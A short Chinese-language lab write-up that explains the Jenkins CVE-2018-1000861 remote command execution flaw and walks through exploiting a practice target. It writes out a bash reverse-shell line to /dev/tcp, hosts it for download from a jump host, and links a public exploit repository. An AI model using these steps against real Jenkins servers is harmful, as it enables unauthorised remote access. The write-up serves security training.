 # CVE-2018-1000861（Jekins 远程命令执行）

## 漏洞概述

Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。

首先打开靶场。

![1](./1.png)

因为此漏洞无回显，所以直接用脚本反弹 shell 了，附上下载链接：

`https://github.com/orangetw/awesome-jenkins-rce-2019/`

首先在跳板机上面创建一个 TXT 文档，文档内容为：

`bash -i >& /dev/tcp/IP/port 0>&1`

然后在跳板机上面创建一个 HTTP 服务，命令如下：

`python3 -m http.server`

然后利用脚本去下载 跳板机上面 shell 文档

![2](./2.png)

在你的跳板机上开启监听，端口是刚才 shell 文档里写的端口

![](./4.png)

然后执行 shell 文档

![3](./3.png)

成功反弹，并执行 ls /tmp 查看 Flag

![5](./5.png)

也可以利用 Goby 直接去利用

![6](./6.png)

